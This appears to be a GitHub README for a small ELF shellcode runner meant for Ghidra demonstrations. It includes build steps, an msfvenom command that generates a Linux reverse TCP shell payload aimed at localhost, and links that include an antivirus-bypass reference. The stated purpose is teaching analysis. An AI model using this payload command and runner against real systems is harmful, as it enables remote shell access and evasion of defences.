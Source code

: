 # Simple_ELF_Shellcode_Runner
Just a simple ELF shellcode runner to use for Ghidra demos.


## How to build
0. Generate a payload with ```msfvenom``` or shellcode generator of your choice.
```
msfvenom -p linux/x86/shell/reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f c
```
1. Update the payload and sczsize variables.

2. Build the payload via ```make```

### References
* [Executing Shellcode in C](https://tuttlem.github.io/2017/10/28/executing-shellcode-in-c.html)
* [Creating and Testing x86_64 shellcode on a Linux Machine](https://stackoverflow.com/questions/27900201/create-and-test-x86-64-elf-executable-shellcode-on-a-linux-machine)
* [mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)
* [AV Bypass w/ Metasploit Templates](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)
